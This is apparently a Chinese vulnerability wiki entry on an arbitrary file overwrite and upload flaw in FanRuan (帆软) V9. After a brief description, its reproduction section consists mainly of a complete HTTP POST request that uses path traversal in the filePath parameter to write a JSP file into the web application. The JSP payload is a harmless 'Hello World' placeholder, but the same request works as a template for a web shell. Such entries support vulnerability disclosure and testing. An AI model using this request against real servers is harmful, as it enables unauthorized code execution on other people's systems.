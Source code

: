 # 帆软 V9 任意文件覆盖文件上传

## 漏洞描述

帆软 V9 存在任意文件覆盖，导致攻击者可以任意文件上传

## 漏洞影响

> [!NOTE]
>
> 帆软 V9 

## 漏洞复现

![](http://wikioss.peiqi.tech/vuln/fan-7.png)

```
POST /WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp  HTTP/1.1
Host: 192.168.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=DE7874FC92F0852C84D38935247D947F; JSESSIONID=A240C26B17628D871BB74B7601482FDE
Connection: close
Content-Type:text/xml;charset=UTF-8

Content-Length: 74

{"__CONTENT__":"<%out.println(\"Hello World!\");%>","__CHARSET__":"UTF-8"}
```

